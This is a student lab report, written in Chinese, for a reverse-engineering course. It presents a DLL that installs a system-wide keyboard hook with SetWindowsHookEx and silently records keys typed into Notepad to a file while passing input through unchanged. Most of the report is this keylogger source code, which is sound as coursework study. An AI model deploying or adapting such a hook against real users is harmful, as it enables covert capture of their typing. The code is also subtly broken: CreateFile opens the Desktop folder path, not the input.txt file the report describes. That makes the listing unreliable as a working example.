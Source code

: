 ## 逆向第二次上机报告


### 实验目标

修改第6章的HookDll.cpp，钩取对notepad的输入，使得：
（1）输入文本仍能正常显示；
（2）所有输入文本能够记录到input.txt文件中。

### 实验分析

SetWindowsHookEx会在进程中安装消息钩子。这里勾取的是键盘响应消息。
每当回调函数被调用后，都需要调用CallNextHookEx将消息传递给下一个钩子，直到此消息被发送到目标进程。
如果不调用CallNextHookEx，消息会被阻断。所以只需要保证无论如何都会调用CallNextHookEx即可使输入正常。
在这个过程中判断是否为notepad即可，按键消息码保存在wParam中，直接转换为ASCII码即可。

### 实验代码

```
#include "stdio.h"
#include "windows.h"

HINSTANCE g_hInstance = NULL;
HHOOK g_hHook = NULL;
HWND g_hWnd = NULL;
HANDLE hFile;

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved){
	switch( dwReason ){
        case DLL_PROCESS_ATTACH:
			g_hInstance = hinstDLL;
            hFile = CreateFile(
                TEXT("C:\\Users\\DrimTure\\Desktop"),
                GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,
                FILE_ATTRIBUTE_NORMAL, NULL);
			break;

        case DLL_PROCESS_DETACH:
			CloseHandle(hFile);
            break;	
	}
	return TRUE;
}

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam){
	char szPath[MAX_PATH] = {0,};
	char *p = NULL;
	char cKey[2];

	if( nCode >= 0 ) {
		// bit 31 : 0 => press, 1 => release
		if( !(lParam & 0x80000000) ){
			GetModuleFileNameA(NULL, szPath, MAX_PATH);
			p = strrchr(szPath, '\\');
            // 当前进程为notepad.exe, 抓取输入值
			if (!_stricmp(p + 1, "notepad.exe")) {
				if ((wParam >= 0x30 && wParam <= 0x39) ||
					(wParam >= 0x41 && wParam <= 0x5A) )
				{
					cKey[0] = (char)wParam;
					WriteFile(hFile, cKey, 1, NULL, NULL);
				}
				else if (wParam == 0x0D) {
					cKey[0] = '\n';
					WriteFile(hFile, cKey, 1, NULL, NULL);
				}
			}
		}
	}
    // 无论当前进程如何, 将消息传递给下一个钩子
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

#ifdef __cplusplus
extern "C" {
#endif
	__declspec(dllexport) void HookStart() {
		g_hHook = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, g_hInstance, 0);
	}

	__declspec(dllexport) void HookStop() {
		if( g_hHook ) {
			UnhookWindowsHookEx(g_hHook);
			g_hHook = NULL;
		}
	}
#ifdef __cplusplus
}
#endif

```

### 实验总结

通过对notepad的注入实验，让我对于逆向的注入有了更加深刻的认识和理解，书本上的理论知识和实际动手之间，还是有比较大的差距，在学习逆向工程时候，应该多注重动手的实际实践，多自己练练，才能对书本上的知识有更好的理解。
